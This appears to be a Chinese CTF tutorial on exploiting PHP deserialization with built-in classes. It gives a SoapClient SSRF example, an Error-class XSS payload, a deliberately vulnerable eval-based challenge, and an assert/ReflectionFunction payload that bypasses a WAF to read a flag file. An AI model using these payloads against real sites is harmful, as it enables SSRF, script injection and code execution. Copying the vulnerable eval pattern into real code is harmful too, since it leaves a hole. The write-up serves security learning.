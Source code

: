 # PHP中原生类的利用

## 前言

在ctf比赛当中，php的反序列是一个常考点，基本每次比赛都会遇到反序列的题目，最近还特别喜欢出原生类的题目，于是就想写篇文章来总结一下。

## 原生类的利用

在比赛当中，如果题目当中给出的类找不到可利用的点，那么就要考虑一下php的原生类了

先来看一下php当中有哪些原生类

```php
<?php
print_r(get_declared_classes());
?>
```

常见的可以利用的类有这么几个

+ SoapClient
+ Error
+ Exception

### `SoapClient`

其中SoapClient是利用的最多的

这个类是php里面用来访问web服务的类，其中提供了一个`__call`的方法，当这个`__call`方法被触发时他就会发送HTTP和HTTPS请求

![image-20210728103836458](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210728103836458.png)

这样会造成SSRF漏洞

例如

```php
<?php
$a = new SoapClient(null,array('uri'=>'http://example.com:28111', 'location'=>'http://example.com:28111/aaa'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();
```

![image-20210728110237703](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210728110237703.png)

调用了对象中不存在的方法后就会触发`__call`方法，利用这个来进行SSRF

### `Error`

根据文档所说error类是所有php内部错误类的基类，这个类在php7当中才引入

![image-20210728111654491](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210728111654491.png)

我们来看两个例子

![image-20210728112213213](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210728112213213.png)



![image-20210728112355427](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210728112355427.png)

可以看到这里触发了`__toString`方法后就将报错的行数还有错误信息给输出出来。

利用这个内置类可以来构造出xss

例：

```php
<?php
$a = unserialize($_GET['wing']);
echo $a;
?>
```

这里很明显就是存在了反序列化，但是题目中没有给出类，只能利用php当中的内置类了

```php
<?php
$a = new Error("<script>alert('xss')</script>");
$b = serialize($a);
echo urlencode($b);  
?>
```

![image-20210728113535617](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210728113535617.png)

这样就可以造成xss了

### `Exception`

这个类在php5和php7当中都有

也是一样会输出报错的

使用方法就跟error类差不多

## `实战演练`

### Nep-bbxhh_revenge

这一题考察的是php当中的原生反射机制

```php
 <?php 
highlight_file(__FILE__);
function waf($s) {
  return preg_replace('/sys|exec|sh|flag|pass|file|open|dir|2333|;|#|\/\/|>/i', "NepnEpneP", $s);
}
if(isset($_GET['a'])) {
  $_ = waf($_GET['a']);
  $__ = waf($_GET['b']);
  $a = new $_($__);
} else {
  $a = new Error('?');
}
if(isset($_GET['c']) && isset($_GET['d'])) {
  $c = waf($_GET['c']);
  $d = waf($_GET['d']);
  eval("\$a->$c($d);");
} else {
  $c = "getMessage";
  $d = "";
  eval("echo \$a->$c($d);");
}
?> 
```

![image-20210728125217377](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210728125217377.png)

这里利用了`ReflectionFunction`类中的`invokeArgs`方法

它会调用函数将它的参数作为数组传递

就相当于是`call_user_func`

![image-20210728125536129](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210728125536129.png)

没懂的话我们再来看看这个例子

```php
<?php

$a = $_GET['a'];
$b = $_GET['b'];
echo call_user_func($a,$b);
?>
```

![image-20210728130200442](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210728130200442.png)

由于这道题还存在waf，所以得跟`call_user_func`套娃使用

![image-20210728151616607](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210728151616607.png)

b是所调用的函数，我们使用`call_user_func`就行

下面是官方给的一个payload

```
index.php?a=ReflectionFunction&b=call_user_func&c=invokeArgs&d=array(%27assert%27,%27s%27.%27how_source(\%27/f\%27.\%27lag\%27)%27)
```

